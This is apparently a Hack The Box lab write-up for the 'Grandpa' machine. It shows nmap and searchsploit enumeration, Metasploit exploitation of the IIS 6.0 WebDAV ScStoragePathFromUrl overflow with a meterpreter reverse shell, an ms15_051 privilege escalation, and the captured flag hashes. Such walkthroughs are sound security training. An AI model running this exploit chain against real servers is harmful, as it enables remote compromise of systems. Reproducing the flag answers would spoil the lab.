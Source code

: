 # Grandpa
#### 10.10.10.14
###### Solved by: Dotaplayer365 and revdev


```{r, engine='bash', count_lines}
nmap -T4 -A -v 10.10.10.14

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Thu, 19 Oct 2017 15:38:04 GMT
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK

```



The website shows "Under Construction"

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Grandpa/images/Website.PNG "Website")

We try visiting some webpages and we get something like this

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Grandpa/images/index.aspx.PNG "index.aspx")


Information we have so far:
* IIS 6.0
* Misconfiguration

There is a good chance that a known exploit would work because of the misconfiguration

Searching exploits for IIS 6.0 

```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Machines/Grandpa# searchsploit IIS 6.0 | grep -v "5.0"
--------------------------------------------------------------- ----------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/platforms/)
--------------------------------------------------------------- ----------------------------------
Microsoft IIS 6.0 - /AUX / '.aspx' Remote Denial of Service    | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow (Stack Exhaustion) Deni | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)    | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)  | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)    | windows/remote/8806.pl
Microsoft IIS 6.0 / 7.5 (+ PHP) - Multiple Vulnerabilities     | windows/remote/19033.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Buffer Overf | windows/remote/41738.py
--------------------------------------------------------------- ----------------------------------
```

'ScStoragePathFromUrl' exploit :
>Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.

We already have info from nmap that the PROPFIND request is supported. So it would not be a long shit trying this one out.

```{r, engine='bash', count_lines}
msf > search ScStoragePathFromUrl

Matching Modules
================

   Name                                                 Disclosure Date  Rank    Description
   ----                                                 ---------------  ----    -----------
   exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual   Microsoft IIS WebDav ScStoragePathFromUrl Overflow

```

_Perfect!_

So we would be using something like this

```{r, engine='bash', count_lines}
Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST          10.10.10.14      yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.248     yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

And there you have it!!

Easier than expected
```{r, engine='bash', count_lines}
msf exploit(iis_webdav_scstoragepathfromurl) > exploit
[*] Started reverse TCP handler on 10.10.14.248:4444 
[*] Sending stage (171583 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.248:4444 -> 10.10.10.14:1036) at 2017-10-15 23:25:52 +0530
meterpreter > 
```

When we try to go into the users directory, it gives us "Access Denied"

Looks like Priv esc should give us both the flags.

Time to go huntin.


After some enumeration we see that there are a couple of processes running under NT AUTHORITY 

```{r, engine='bash', count_lines}
meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session  User                          Path
 ---   ----  ----              ----  -------  ----                          ----
...                                                  
 1172  388   inetinfo.exe                                                   
 1212  388   svchost.exe                                                    
 1436  1500  w3wp.exe          x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 1500  388   svchost.exe                                                    
 1588  388   svchost.exe                                                    
 1668  1752  rundll32.exe      x86   0                                      C:\WINDOWS\system32\rundll32.exe
 1672  388   alg.exe                                                        
 1820  588   davcdata.exe      x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 1992  1436  rundll32.exe      x86   0                                      C:\WINDOWS\system32\rundll32.exe
...                                            
```

Lets migrate into that process

```{r, engine='bash', count_lines}
meterpreter > migrate 1820
[*] Migrating from 1668 to 1820...
[*] Migration completed successfully.
```

We still get Access Denied, Time to use the exploit suggester

```
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

After trying a few of the suggested exploits, this one worked
```{r, engine='bash', count_lines}
msf exploit(ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.106.133  yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
   
   
msf exploit(ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.248:4443 
[*] Launching notepad to host the exploit...
[+] Process 2564 launched.
[*] Reflectively injecting the exploit DLL into 2564...
[*] Injecting exploit into 2564...
[*] Exploit injected. Injecting payload into 2564...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (171583 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.248:4443 -> 10.10.10.14:1041) at 2017-10-15 23:36:44 +0530
meterpreter > 
```

**user.txt**
```{r, engine='bash', count_lines}
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
bdff5ec67c3cff017f2bedc146a5d869
```


**root.txt**
```{r, engine='bash', count_lines}
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
9359e905a2c35f861f6a57cecf28bb7b
```

